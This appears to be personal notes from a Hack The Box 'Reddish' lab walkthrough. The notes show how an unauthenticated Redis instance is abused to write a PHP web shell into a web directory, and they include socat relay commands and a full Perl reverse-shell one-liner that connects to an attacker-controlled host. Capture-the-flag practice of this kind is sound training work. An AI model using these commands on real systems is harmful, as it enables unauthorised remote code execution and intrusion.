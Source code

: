 ```
MISCONF Redis is configured to save RDB snapshots, but it is currently not able to persist on disk. Commands that may modify the data set are disabled, because this instance is configured to report errors during writes if RDB snapshotting fails (stop-writes-on-bgsave-error option). Please check the Redis logs for details about the RDB error.`
```

we can solve 

```bash
redis-cli -h localhost config set stop-writes-on-bgsave-error no
```

if no get that error maybe this:

![[Pasted image 20250418163445.png]]
let's keep in mind the path `/var/www/html/8924d0549008565c554f8128cd11fda4/` if we have a method to create a web reverse shell that path may be useful.
Searching on the browser found a way to implement a RCE in [[Redis]].
with the next script can be automatized: 

```bash
cat ~/Desktop/hackthebox/Reddish/shells/web-shell.php | redis-cli -h localhost -x set r
redis-cli -h localhost config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
redis-cli -h localhost config set dbfilename "r.php"
redis-cli -h localhost save

```
Ensure `web-shell.php` exists and keep in mind at moment to send the shell the process can add garbage at the beginning and end of file. so use `\n\n\n` at beginning and the end.
![[Pasted image 20250418164303.png]]
at execute the script and we have four `OK` it's done. Go the path
`http://localhost/8924d0549008565c554f8128cd11fda4/r.php?cmd=%27whoami%27`
and works
![[Pasted image 20250418164652.png]]
if we can check connectivity with our machine with `ping`. Get this message: `ping: icmp open socket: Operation not permitted`.
But the machine have connectivity with `Nodered - 172.19.0.3` we try establish a tunnel with [[socat]] in a port of that machine and redirect the traffic to our host device.
First transfer `socat` in the same way as transfer `chisel`.
Now we need start a listener on the victim port to work as traffic redirect.

```bash
./socat TCP-LISTEN:1111,fork TCP:10.10.16.2:9003 &
```

with this we run socat in the background to start `chisel` again.
now, check if the web shell has [[Perl]] to establish a reverse shell to `Nodered` and that redirect to our `port 9003`.

> Remember execute the script to send a `web-shell.php` to `redis` service.

now, lets try with perl reverse shell.
```bash
perl -e 'use Socket;$i="172.19.0.3";$p=1111;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">%26S");open(STDOUT,">%26S");open(STDERR,">%26S");exec("/bin/sh -i");};'
```
We aim to `Nodered` machine on port 1111.
In our host machine listen at port 9003
